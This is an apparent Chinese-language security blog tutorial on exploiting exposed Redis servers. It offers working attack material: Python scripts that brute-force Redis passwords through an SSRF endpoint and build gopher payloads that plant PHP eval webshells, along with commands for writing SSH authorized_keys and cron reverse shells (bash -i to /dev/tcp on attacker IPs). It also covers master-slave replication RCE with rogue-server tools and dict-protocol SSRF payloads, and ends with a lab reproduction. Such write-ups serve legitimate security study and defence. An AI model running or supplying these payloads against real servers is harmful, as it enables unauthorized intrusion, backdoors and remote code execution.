


Redis漏洞及其利用方式

- - -

# Redis漏洞及其利用方式

#### **0x01 什么是Redis**

Redis是一个使用ANSI C编写的开源（BSD许可）、支持网络、基于内存、可选持久性的键值对存储的key-value存储系统，它可以用作数据库、缓存和消息中间件。

它支持多种类型的数据结构，如 字符串（strings）， 散列（hashes）， 列表（lists）， 集合（sets）， 有序集合（sorted sets） 与范围查询， bitmaps， hyperloglogs 和 地理空间（geospatial） 索引半径查询。 Redis 内置了 复制（replication），LUA脚本（Lua scripting）， LRU驱动事件（LRU eviction），事务（transactions） 和不同级别的 磁盘持久化（persistence）， 并通过 Redis哨兵（Sentinel）和自动 分区（Cluster）提供高可用性（high availability）。这些数据类型都支持push/pop、add/remove及取交集并集和差集及更丰富的操作，而且这些操作都是原子性的。在此基础上，redis支持各种不同方式的排序。与memcached一样，为了证效率，数据都是缓存在内存中。区别的是redis会周期性的把更新的数据写入磁盘或者把修改操作写入追加的记录文件，并且在此基础上实现了master-slave(主从)同步。

但如果当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。为了应对这种情况，Redis就提供了**主从模式**，主从模式就是指使用一个redis实例作为主机(master)，其他实例都作为备份机(slave)，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。

#### **0x02 redis常用命令**

```plain
set xz "Hacker"                     # 设置键xz的值为字符串Hacker
get xz                              # 获取键xz的内容
SET score 857                       # 设置键score的值为857
INCR score                          # 使用INCR命令将score的值增加1
GET score                           # 获取键score的内容
keys *                              # 列出当前数据库中所有的键
config set protected-mode no        # 关闭安全模式
get anotherkey                      # 获取一个不存在的键的值
config set dir /root/redis          # 设置保存目录
config set dbfilename redis.rdb     # 设置保存文件名
config get dir                      # 查看保存目录
config get dbfilename               # 查看保存文件名
save                                # 进行一次备份操作
flushall                            # 删除所有数据
del key                             # 删除键为key的数据
slaveof ip port                     # 设置主从关系
redis-cli -h ip -p 6379 -a passwd   # 外部连接
```

redis操作注意事项

> 1.使用SET和GET命令，可以完成基本的赋值和取值操作；  
> 2.Redis是不区分命令的大小写的，set和SET是同一个意思；  
> 3.使用keys \*可以列出当前数据库中的所有键；  
> 4.当尝试获取一个不存在的键的值时，Redis会返回空，即(nil)；  
> 5.如果键的值中有空格，需要使用双引号括起来，如"Hello World".

redis配置文件参数

port参数

> 格式为port后面接端口号，如port 6379，表示Redis服务器将在6379端口上进行监听来等待  
> 客户端的连接。一般我们用dict协议来爆破端口的开放情况

bind参数

> 格式为bind后面接IP地址，可以同时绑定在多个IP地址上，IP地址之间用空格分离，如bind  
> 192.168.1.100 10.0.0.1，表允许192.168.1.100和10.0.0.1两个IP连接。如果设置为0.0.0.0  
> 则表示任意ip都可连接，说白了就是白名单。

save参数

> 格式为save <秒数> <变化数>，表示在指定的秒数内数据库存在指定的改变数时自动进行备份（Redis是内存数据库，这里的备份就是指把内存中的数据备份到磁盘上）。可以同时指定多个save参数，如：  
> save 900 1  
> save 300 10  
> save 60 10000  
> 表示如果数据库的内容在60秒后产生了10000次改变，或者300秒后产生了10次改变，或者900秒后产生了1次改变，那么立即进行备份操作。

requirepass参数

> 格式为requirepass后接指定的密码，用于指定客户端在连接Redis服务器时所使用的密码。Redis默认的密码参数是空的，说明不需要密码即可连接；同时，配置文件有一条注释了的requirepass foobared命令，如果去掉注释，表示需要使用foobared密码才能连接Redis数据库。一般在打有认证的redis时，可能直接写脚本来爆破弱口令

dir参数

> 格式为dir后接指定的路径，默认为dir ./，指明Redis的工作目录为当前目录，即redis-server文件所在的目录。注意，Redis产生的备份文件将放在这个目录下。

dbfilename参数

> 格式为dbfilename后接指定的文件名称，用于指定Redis备份文件的名字，默认为dbfilename dump.rdb，即备份文件的名字为dump.rdb。

config命令

> 通过config命令可以读取和设置dir参数以及dbfilename参数，因为这条命令比较危险（实验将进行详细介绍），所以Redis在配置文件中提供了rename-command参数来对其进行重命名操作，如rename-command CONFIG HTCMD，可以将CONFIG命令重命名为HTCMD。配置文件默认是没有对CONFIG命令进行重命名操作的。

protected-mode参数

> redis3.2之后添加了protected-mode安全模式，默认值为yes，开启后禁止外部连接，所以在测试时，先在配置中修改为no。

#### **0x03 redis漏洞的利用方式**

Redis 提供了2种不同的持久化方式，RDB方式和AOF方式.

-   RDB 持久化可以在指定的时间间隔内生成数据集的时间点快照
-   AOF 持久化记录服务器执行的所有写操作命令.

经过查看官网文档发现AOF方式备份数据库的文件名默认为`appendonly.aof`，可以在配置文件中通过`appendfilename`设置其他名称，通过测试发现不能在客户端交互中动态设置appendfilename，所以不能通过AOF方式备份写任意文件.

-   RDB方式备份数据库的文件名默认为`dump.rdb`，此文件名可以通过客户端交互动态设置dbfilename来更改，造成可以写任意文件.

**原理：**

Redis 默认情况下，会绑定在 **ip地址:6379**，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空），会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。

攻击者在未授权访问 Redis 的情况下，可以利用 Redis 自身的提供的 config 命令像目标主机写WebShell、写SSH公钥、创建计划任务反弹Shell等。其思路都是一样的，就是先将Redis的本地数据库存放目录设置为web目录、~/.ssh目录或/var/spool/cron目录等，然后将dbfilename（本地数据库文件名）设置为文件名你想要写入的文件名称，最后再执行save或bgsave保存，则我们就指定的目录里写入指定的文件了。

**危害**

-   攻击者无需认证访问到内部数据，可能导致敏感信息泄露，黑客也可以恶意执行flushall来清空所有数据；
-   攻击者可通过EVAL执行lua代码，或通过数据备份功能往磁盘写入后门文件；
-   最严重的情况，如果Redis以root身份运行，黑客可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器

##### 绝对路径写webshell —有无认证均可

**条件：**

-   知道网站绝对路径，并且需要增删改查权限
-   root启动redis
-   redis弱密码或者无密码

> 补充：若不知道物理路径，可尝试寻找网站的应用程序错误或者常见绝对路径去尝试。

一些命令(协议打可能用到)

```plain
redis-cli -h 192.168.3.134 #连接

Redis config set dir /www/admin/localhost_80/wwwroot #设置要写入shell的路径

set xxx “\n\n\n<?php phpinfo() ;?>\n\n\n” #写入phpinfo()到xxx键

config set dbfilename phpinfo.php

save
```

默认redis的端口是6379，如果改了，直接利用burp爆破端口

然后如果redis需要为有认证的，需要密码，我们也可以利用脚本爆破弱口令的密码（在后面）

```plain
import urllib.request
import urllib.parse 

url = "http://xx.xx.xx.xx:8000/ssrf.php?url="

param = 'dict://127.0.0.1:6788/auth:'

with open(r'd:\test\top100.txt', 'r') as f: #字典
    for i in range(100):
        passwd = f.readline()
        all_url = url + param + passwd
        # print(all_url)
        request = urllib.request.Request(all_url)
        response = urllib.request.urlopen(request).read()
        # print(response)
        if "+OK\r\n+OK\r\n".encode() in response:  #因为是不知道是否正确，可以用not in
            print("redis passwd: " + passwd)
            break
```

如果不需要密码，直接用下面的脚本；如果有密码，用上面的脚本爆，再用下面的脚本构成payload。

```plain
import urllib.parse
protocol="gopher://"
ip="127.0.0.1"
port="6379"
shell="\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
filename="1.php"
path="/var/www/html"
passwd=""        #如果无密码就不加，如果有密码就加 
cmd=["flushall",
     "set 1 {}".format(shell.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.parse.quote(redis_format(x))
    print(urllib.parse.quote(payload))
```

再提供一个脚本

```plain
# -*- coding: UTF-8 -*-
from urllib.parse import quote
from urllib.request import Request, urlopen

url = "http://xxxxxx/?url="
gopher = "gopher://127.0.0.1:6379/_"

def get_password():
    f = open("message.txt", "r")         #密码文件
    return f.readlines()

def encoder_url(cmd):
    urlencoder = quote(cmd).replace("%0A", "%0D%0A")
    return urlencoder

###------暴破密码，无密码可删除-------###
for password in get_password():
    # 攻击脚本
    path = "/var/www/html"
    shell = "\\n\\n\\n<?php eval($_POST['cmd']);?>\\n\\n\\n"
    filename = "shell.php"

    cmd = """
    auth %s
    quit
    """ % password
    # 二次编码
    encoder = encoder_url(encoder_url(cmd))
    # 生成payload
    payload = url + gopher + encoder
    # 发起请求
    print(payload)
    request = Request(payload)
    response = urlopen(request).read().decode()
    print("This time password is:" + password)
    print("Get response is:")
    print(response)
    if response.count("+OK") > 1:
        print("find password : " + password)
        #####---------------如无密码，直接从此开始执行---------------#####
        cmd = """
        auth %s
        config set dir %s
        config set dbfilename %s
        set test1 "%s"
        save
        quit
        """ % (password, path, filename, shell)
        # 二次编码
        encoder = encoder_url(encoder_url(cmd))
        # 生成payload
        payload = url + gopher + encoder
        # 发起请求
        request = Request(payload)
        print(payload)
        response = urlopen(request).read().decode()
        print("response is:" + response)
        if response.count("+OK") > 5:
            print("Write success！")
            exit()
        else:
            print("Write failed. Please check and try again")
            exit()
        #####---------------如无密码，到此处结束------------------#####
print("Password not found!")
print("Please change the dictionary,and try again.")
```

##### 写 ssh-keygen 公钥登录服务器

**原理：**

SSH提供两种登录验证方式，一种是口令验证也就是账号密码登录，另一种是密钥验证。

所谓密钥验证，其实就是一种基于公钥密码的认证，使用公钥加密、私钥解密，其中公钥是可以公开的，放在服务器端，你可以把同一个公钥放在所有你想SSH远程登录的服务器中，而私钥是保密的只有你自己知道，公钥加密的消息只有私钥才能解密。大概过程：

> （1）客户端生成私钥和公钥，并把公钥拷贝给服务器端；
> 
> （2）客户端发起登录请求，发送自己的相关信息；
> 
> （3）服务器端根据客户端发来的信息查找是否存有该客户端的公钥，若没有拒绝登录，若有则生成一段随机数使用该公钥加密后发送给客户端；
> 
> （4）客户端收到服务器发来的加密后的消息后使用私钥解密，并把解密后的结果发给服务器用于验证；
> 
> （5）服务器收到客户端发来的解密结果，与自己刚才生成的随机数比对，若一样则允许登录，不一样则拒绝登录。

**条件：**

1、Redis服务使用ROOT账号启动

2、服务器开放了SSH服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。

其实，思路跟写webshell的思路一样

一些命令(协议打可能用到)

> redis-cli -h 192.168.33.134 #连接目标主机
> 
> redis config get dir #检查当前保存路径
> 
> config get dbfilename #检查保存文件名
> 
> config set dir /root/.ssh/ #设置保存路径
> 
> config set dbfilename authorized\_keys #设置保存文件名
> 
> set xz “\\n\\n\\n 公钥 \\n\\n\\n” #将公钥写入xz健
> 
> save #进行保存

首先在攻击机的/root/.ssh目录里生成ssh公钥key：

```plain
ssh-keygen -t rsa
```

之后修改上述脚本：

```plain
path= "/root/.ssh"       #路径
shell= "\\n\\n\\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDJE1ZQmknB9zQ1J/HixzTycZMOcXkdqu7hwGRk316cp0Fj0shkV9BbraBzyxKsJyL8bC2aHIEepGQaEQxGRoQOj2BVEmvOFCOgN76t82bS53TEE6Z4/yD3lhA7ylQBYi1Oh9qNkAfJNTm5XaQiCQBvc0xPrGgEQP1SN0UCklY/H3Y+KSpBClk+eESey68etKf+Sl+9xE/SyQCRkD84FhXwQusxxOUUJ4cj1qJiFNqDwy5zu1mLEVtMF23xnxV/WOA4L7cRCw7fqZK/LDoUJXGviF+zzrt9G9Vtrh78YZtvlVxvLDKu8aATlCVAfjtomM1x8I0Mr3tUJyoJLLBVTkMJ9TFfo0WjsqACxEYXC6v/uCAWHcALNUBm0jg/ykthSHe/JwpenbWS58Oy8KmO5GeuCE/ciQjOfI52Ojhxr0e4d9890x/296iuTa9ewn5QmpHKkr+ma2uhhbGEEPwpMkSTp8fUnoqN9T3M9WOc51r3tNSNox2ouHoHWc61gu4XKos= root@kali\\n\\n\\n"   #公钥
filename= "authorized_keys"  #文件名
```

跑完脚本，然后利用SSH登录攻击机

下面是找的一个图

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118161758-fbab7b9a-85ea-1.png)

##### 创建计划任务反弹shell

这个方法只能Centos上使用，Ubuntu上行不通，原因如下：

> 因为默认redis写文件后是644的权限，但ubuntu要求执行定时任务文件/var/spool/cron/crontabs/权限必须是600也就是-rw——-才会执行，否则会报错(root) INSECURE MODE (mode 0600 expected)，而Centos的定时任务文件/var/spool/cron/权限644也能执行  
> 因为redis保存RDB会存在乱码，在Ubuntu上会报错，而在Centos上不会报错  
> 由于系统的不同，crontrab定时文件位置也会不同：

Centos的定时任务文件在/var/spool/cron/  
Ubuntu定时任务文件在/var/spool/cron/crontabs/

**条件：**

-   root启用Redis
    
-   redis无密码或者弱密码
    

一些命令(协议打可能用到)

> redis-cli -h 192.168.33.134 #连接
> 
> redis flushall #清除所有键值
> 
> config set dir /var/spool/cron/crontabs/ #设置保存路径
> 
> config set dbfilename shell #保存名称
> 
> set xz “\\n \* bash -i >& /dev/tcp/192.168.33.131/8888 0>&1\\n” #将反弹shell写入xz键值
> 
> save #写入保存路径的shell文件

那么我们先在攻击机监听端口，再运行脚本

还是改动相应的脚本

```plain
path = "/var/spool/cron/crontabs"         #路径
shell = "\\n\\n\\n* * * * * bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0>&1\\n\\n\\n"   #反弹shell
filename = "root"   #文件名
```

##### **redis主从复制getshell**

**原理：**

Redis如果当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。为了应对这种情况，Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。

在全量复制过程中,恢复rdb文件,如果我们将rdb文件构造为恶意的exp.so,从节点即会自动生成,使得可以RCE

**作用：**

-   数据冗余(热备份)
-   故障恢复(主节点出问题可以由从节点继续提供服务)
-   读写分离(主节点提供写服务,从节点提供读服务)

感觉像是 docker里的 容器挂载，同步文件内容那种

> **这也是redis从ssrf到rce的核心:**
> 
> 通过主从复制，主redis的数据和从redis上的数据保持实时同步，当主redis写入数据是就会通过主从复制复制到其它从redis

**\[Redis模块\]**

**在Reids 4.x之后，Redis新增了模块功能，通过外部拓展，可以实现在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件**

Redis模块是动态库，可以在启动时或使用`MODULE LOAD`命令加载到Redis中

> config set dir /tmp/ //设置文件路径为/tmp/  
> config set dbfilename exp.so //设置数据库文件名为：exp.so  
> slaveof vpsip port //设置主redis地址为 vpsip，端口为 port  
> module load /tmp/exp.so  
> system.exec 'bash -i >& /dev/tcp/ip/port 0>&1'

redis的持久化使得机器即使重启数据也不会丢失，因为redis服务器重启后会把硬盘上的文件重新恢复到内存中，但是如果硬盘的数据被删除的话数据就无法恢复了，如果通过主从复制就能解决这个问题，主redis的数据和从redis上的数据保持实时同步，当主redis写入数据是就会通过主从复制复制到其它从redis。

-   Redis 版本(4.x~5.0.5)（新增模块功能，可以通过C语言并编译出恶意.so文件）
-   redis弱密码或者无密码
-   root启动redis

**步骤**：

下面这串命令可以具体感受主从复制的原理

```plain
root@kali:~/桌面# redis-cli -h 192.168.33.134
192.168.33.134:6379> slaveof 192.168.33.131 6379 # 设置主从关系
OK
192.168.33.134:6379> get sdpcsec
(nil)
192.168.33.134:6379> exit
root@kali:~/桌面# redis-cli  # 写---主机
127.0.0.1:6379> get sdpcsec
(nil)
127.0.0.1:6379> set sdpcsec sdpcsec
OK
127.0.0.1:6379> exit
root@kali:~/桌面# redis-cli -h 192.168.33.134  # 读---从机
192.168.33.134:6379> get sdpcsec
"sdpcsec"
192.168.33.134:6379>
```

过程分为三个阶段:连接建立阶段、数据同步阶段、命令传播阶段

从节点执行slaveof命令后,复制过程开始,分为六个阶段:

1.  保存主节点信息
2.  主从建立socker链接
3.  发送ping命令
4.  权限验证
5.  同步数据集
6.  命令持续复制
    
    **利用 redis-rogue-server 工具**
    

> 下载地址：[https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

该工具的原理就是首先创建一个恶意的Redis服务器作为Redis主机（master），该Redis主机能够回应其他连接他的Redis从机的响应。有了恶意的Redis主机之后，就会远程连接目标Redis服务器，通过 slaveof 命令将目标Redis服务器设置为我们恶意Redis的Redis从机（slaver）。然后将恶意Redis主机上的exp同步到Reids从机上，并将dbfilename设置为exp.so。最后再控制Redis从机（slaver）加载模块执行系统命令即可。  
但是该工具无法输入Redis密码进行Redis认证，也就是说该工具只能在目标存在Redis未授权访问漏洞时使用。如果目标Redis存在密码是不能使用该工具的。

> 有两种使用方法  
> 一种是交互式shell,另一种是反弹shell

```plain
python3 redis-rogue-server.py --rhost rhost --lhost lhost —rhost为从机，lhost为主机
例如：
python3 redis-rogue-server.py --rhost 192.168.33.134 --lhost 192.168.33.131  --exp module.so
根据提示输入i进入交互shell
```

\[交互式shell\]

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118161827-0d019762-85eb-1.png)

反弹shell

```plain
python3 redis-rogue-server.py --rhost 192.168.33.134 --lhost 192.168.33.131 --exp module.so
根据提示输入r，接着输入ip和端口进行反弹
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118161855-1d785d6a-85eb-1.jpeg)

**利用 redis-rce 工具**

> 下载地址：[https://github.com/Ridter/redis-rce](https://github.com/Ridter/redis-rce)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118161909-25d75dbc-85eb-1.png)

这个工具里少一个exp.so的文件，我们还需要去上面那个到 redis-rogue-server 工具中找到exp.so文件并复制到redis-rce.py同一目录下，然后执行如下命令即可：

```plain
python3 redis-rce.py -r rhost -lhost lhost -f exp.so -a password
例：
python3 redis-rce.py -r 192.168.33.134 -L 192.168.33.131 -f exp.so -a 657260
```

#### 0x04 SSRF打redis

##### gopherus直接打redis

**利用gopherus**

主要是写webshell

```plain
python gopherus.py --exploit redis

php
[回车]
<?php eval($_POST['sdpc']);?>
```

然后传入shell，默认生成shell.php  
访问shell.php,任意命令执行。

> **PS**：也可以直接用上面`绝对路径写webshell`的直接打`有无认证的redis`

**利用sec\_tools**

> 工具下载：[https://blog.csdn.net/cosmoslin/article/details/121003109?spm=1001.2014.3001.5501](https://blog.csdn.net/cosmoslin/article/details/121003109?spm=1001.2014.3001.5501)

这个因为是写入命令，几种方式都可以。

使用方法：

`redis.cmd`写入攻击所需的redis指令

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118161926-303ff070-85eb-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118161938-377c5b08-85eb-1.png)

然后改变一下ip和port，还需要进行一次url编码（总共就是两次）

##### dict协议打redis

**探测端口的开放**

直接使用bp的爆破来判断`端口的开放`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118161951-3ed11d12-85eb-1.png)

先INFO探测是否设置口令，如果有下图显示，说明就是有的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162011-4adc1a80-85eb-1.png)

然后通过`dict://xxx.xxx.xxx:6789/auth:密码`，密码放个字典，可以破解弱口令密码

**dict打redis之写入webshell**

命令步骤：

> 更改rdb文件的目录至网站目录下  
> url=dict://xxx.xxx:6380/config:set:dir:/var/www/html
> 
> 将rdb文件名dbfilename改为webshell的名字url=dict://xxx.xxx:6380/config:set:dbfilename:webshell.php
> 
> 写入webshell  
> url=dict://xxx.xxx:6380/set:webshell:"\\x3c\\x3f\\x70\\x68\\x70\\x20\\x70\\x68\\x70\\x69\\x6e\\x66\\x6f\\x28\\x29\\x3b\\x3f\\x3e"
> 
> 有些时候可能\\x需要换成 \\ \\x进行转义
> 
> 进行备份  
> dict://xxx.xxx:6380/save

**dict打redis之计划任务反弹shell**

只写了命令,具体就是`dict://xxx.xxx:6380`/命令

```plain
flushall #清除所有键值

config set dir /var/spool/cron/crontabs/ #设置保存路径

config set dbfilename shell #保存名称

set xz “\n* * * * * bash -i >& /dev/tcp/192.168.33.131/8888 0>&1\n” #将反弹shell写入xz键值

save #写入保存路径的shell文件
```

> set 1 '\\n\\n*/1* \* root /bin/bash -i >& /dev/tcp/ip/port 0>&1\\n\\n'  
> 转换一下即： url=dict://xxx.xxx:6380/set;shell:shell:"\\n\\n\\x2a\\x20\\x2a\\x20\\x2a\\x20\\x2a\\x20\\x2a\\x20root\\x20/bin/bash\\x20\\x2di\\x20\\x3e\\x26\\x20/dev/tcp/192.168.124.141/2333\\x200\\x3e\\x261\\n\\n"
> 
> 但还要注意这里不能够这么写：\\x5c 而应该直接就 \\n，也不要写\\r\\n 因为linux换行符就是\\n，写\\r反而可能会出现参数污染

**dict打redis之主从复制**

> 192.168.33.134是从机，192.168.33.131是主机

```plain
dict://192.168.33.134:6379/slaveof:192.168.33.131:6379 dict://192.168.33.134:6379/config:set:dir:/www/admin/localhost_80/wwwroot
dict://192.168.33.134:6379/config:set:dbfilename:ssrf.php
先设置好保存的路径和保存的文件名
然后登入kali进行主从复制操作，方法和上面的一样
127.0.0.1:6379> set xxx "\n\n\n<?php phpinfo() ;?>\n\n\n"
再去web端执行save操作
dict://192.168.33.134:6379/save
这样数据直接回同步到目标机
```

**批量检测未授权redis脚本**

[https://github.com/Ridter/hackredis](https://github.com/Ridter/hackredis)

#### 0x05 漏洞复现

**1）环境搭建**

**靶机：Ubuntu**

环境部署：

```plain
wget http://download.redis.io/releases/redis-2.8.17.tar.gz
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162046-5fb8a87e-85eb-1.png)

解压安装包：tar xzf redis-2.8.17.tar.gz

进入redis目录：cd redis-2.8.17

安装：make

make结束后，进入src目录：cd src，  
将redis-server和redis-cli拷贝到/usr/bin目录下（这样启动redis-server和redis-cli就不用每次都进入安装目录了）

> cp redis-server /usr/bin
> 
> cp redis-cli /usr/bin

返回目录redis-2.8.17，将redis.conf拷贝到/etc/目录下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162111-6ec3c704-85eb-1.png)

使用/etc/目录下的reids.conf文件中的配置启动redis服务：

> redis-server /etc/redis.conf

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162126-7765d294-85eb-1.png)

靶机即配置完毕

**攻击机：kali**

环境部署：

wget [http://download.redis.io/releases/redis-2.8.17.tar.gz](http://download.redis.io/releases/redis-2.8.17.tar.gz)

tar -zxvf redis-2.8.17.tar.gz

cd redis-2.8.17

make

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162144-825de1e6-85eb-1.png)

将redis-server和redis-cli拷贝到/usr/bin目录下，这样启动他们就不用每次到redis目录中

cd src

cp redis-server /usr/bin

cp redis-cli /usr/bin

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162157-8a48860e-85eb-1.png)

返回目录redis-2.8.17，将redis.conf拷贝到/etc/目录下

cd ..  
cp redis.conf /etc/

测试运行redis服务，成功！

> redis-server /etc/redis.conf

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162219-9774b802-85eb-1.png)

靶机ip：192.168.68.138

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162231-9e8b4fe8-85eb-1.png)

攻击机ip：192.168.68.129

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162246-a74c8782-85eb-1.png)

##### 0x01 攻击机连接redis靶机

攻击机连接靶机

> ./redis-cli -h 192.168.68.138

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162304-b22316e4-85eb-1.png)

连接成功。

> config get dir #查看redis数据库路径
> 
> config set dir /usr/bin #修改靶机Redis数据库路径(需要是攻击机已知的目录)
> 
> config set dbfilename shell.php #生成shell.php文件
> 
> set xxx "\\r\\n\\r\\n<?php phpinfo();?>\\r\\n\\r\\n"#将一句话木马写入文件中  
> ("\\r\\n\\r\\n"是换行的意思，用redis写入文件会自带一些版本信息，如果不换行可能导致无法执行。)
> 
> set xxx "\\r\\n\\r\\n<?php eval($\_POST\[whoami\]);?>\\r\\n\\r\\n"(上传木马可以通过蚁剑连接)
> 
> save#保存

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162320-bbaad0a8-85eb-1.png)

进入靶机验证

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162332-c2d3ff12-85eb-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162344-c9e798a4-85eb-1.png)

##### 0x02 利用redis漏洞ssh密钥连接

在攻击机上生成密钥

> ssh-keygen -t rsa

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162357-d170bb00-85eb-1.png)

进入.ssh目录：cd .ssh/，将生成的公钥保存到1.txt：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162422-e0796700-85eb-1.png)

远程登录靶机的redis服务：redis-cli -h 192.168.68.138

并使用 CONFIG GET dir 命令得到redis备份的路径：

更改redis备份路径为ssh公钥存放目录（一般默认为/root/.ssh）：

设置上传公钥的备份文件名字为authorized\_keys：

检查是否更改成功（查看有没有authorized\_keys文件），没有问题就保存然后退出，

至此成功写入ssh公钥到靶机：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162443-ece83d36-85eb-1.png)

在攻击机上使用ssh免密登录靶机：ssh -i id\_rsa root@192.168.68.138

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162453-f2dce8cc-85eb-1.png)

此处可以看到，已经登录靶机（倒数第二行靶机IP）

##### 2、利用计划任务反弹shell

我们都知道crontab是做计划任务的，启动的任务存放在/var/spool/cron中，root可以修改计划任务，可以将执行命令反弹shell直接写入计划任务中

先在攻击机使用nc监听8888端口

> nc lvnp 8888

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162511-fdba5086-85eb-1.png)

连接redis，写入反弹shell

> redis-cli -h 192.168.68.138 #连接redis  
> flushall #清除所有键值  
> config set dir /var/spool/cron/crontabs/ #设置保存路径  
> config set dbfilename shell #保存名称  
> set xz "\\n \* bash -i >& /dev/tcp/192.168.68.138/8888 0>&1\\n"
> 
> ​ #将反弹shell写入xz键值  
> save #写入保存路径的shell文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162526-06574b5e-85ec-1.png)

(ubantu写入会出现乱码和不回弹的情况，反弹shell测试最好还是用centos测试)这里就没有回弹，这里找了一张师傅的图

[](https://xzfile.aliyuncs.com/media/upload/picture/20231118162536-0c522c86-85ec-1.png)

ubantu的坑参考这个文章：[https://www.dazhuanlan.com/2019/11/15/5dce507a41df5/](https://www.dazhuanlan.com/2019/11/15/5dce507a41df5/)

> 解决redis crontab反弹shell失败：
> 
> -   查看cron有没有启动
>     
> -   利用redis未授权访问写的任务计划文件都有乱码，这是乱码来自redis的缓存数据，这个问题无法解决的。centos会忽略乱码去执行格式正确的任务计划，而ubuntu和debian并不会忽略这些乱码，所以导致命令执行失败。
>     
> -   root文件的权限必须为600
> 
> ```plain
> chmod 600 root
> ```
> 
> -   反弹shell的/bin/sh是bash，而我的靶机的bin/sh是dash ,所以运行出错。我们需要通过以下命令查看和修改。
> 
> ```plain
> ls -al /bin/sh            #查看运行环境
> ln -s -f bash /bin/sh     #修改为bash
> ```

**推荐文章**

Redis未授权访问漏洞复现与利用：[https://blog.csdn.net/qq\_42430287/article/details/124377882?ops\_request\_misc=&request\_id=&biz\_id=102&utm\_term=MODULE%20LOAD%20%22/tmp/exp.so%22&utm\_medium=distribute.pc\_search\_result.none-task-blog-2~all~sobaiduweb~default-0-124377882.142](https://blog.csdn.net/qq_42430287/article/details/124377882?ops_request_misc=&request_id=&biz_id=102&utm_term=MODULE%20LOAD%20%22/tmp/exp.so%22&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-0-124377882.142)

